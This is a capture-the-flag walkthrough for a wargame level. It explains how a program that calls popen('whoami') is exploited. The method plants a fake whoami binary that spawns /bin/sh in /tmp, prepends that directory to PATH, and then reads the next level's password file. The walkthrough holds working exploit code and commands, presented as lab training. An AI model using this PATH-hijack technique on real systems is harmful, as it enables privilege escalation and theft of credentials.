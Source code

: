 ##1. Check out the source code in level04.c
```
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
    char username[1024];
    FILE* f = popen("whoami","r");
    fgets(username, sizeof(username), f);
    printf("Welcome %s", username);

    return 0;
}
```

##2. Doesn't look like we need a buffer overflow for this challenge, considering that we can't really control what goes into the username buffer. One thing we can control, though, is what bash thinks is the `whoami` binary. When a command line utility like `ls` or `cd` or `whoami` is called, bash searches through all the paths in the PATH environment variable for the matching binary. And we *can* control the PATH environment variable in our current bash session. So what we need to do is write our own little binary that calls one of the exec functions, compile it with the name whoami, then modify the PATH environment variable.

##3. We need to find a directory where we have write access, and chances are that /tmp is probably writable. So we type `mkdir /tmp/ZZZ`. Now that we have somewhere to write, here's a sample file named whoami.c:
```
#include <unistd.h>

int main() {
    execl("/bin/sh", "sh", NULL);

    return 0;
}
```

##4. Now we need to compile it:
```
level4@io:/tmp/ZZZ$ gcc -o whoami whoami.c
```

##5. Modify the PATH environment variable:
```
level4@io:/tmp/ZZZ$ export PATH=/tmp/ZZZ:$PATH
level4@io:/tmp/ZZZ$ echo $PATH
/tmp/ZZZ:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
Excellent, now when we type `whoami`, bash will first search our directory of `/tmp/ZZZ` and run our binary which calls `execl("/bin/sh", "sh", NULL);` and subsequently get us a shell as user level5.

##6. Now we change directories back into /levels and run the level04 binary and watch what happens.
```
level4@io:/tmp/ZZZ$ cd /levels/
level4@io:/levels$ ./level04
sh-4.2$ cat /home/level5/.pass
Welcome [the password for level5]
```
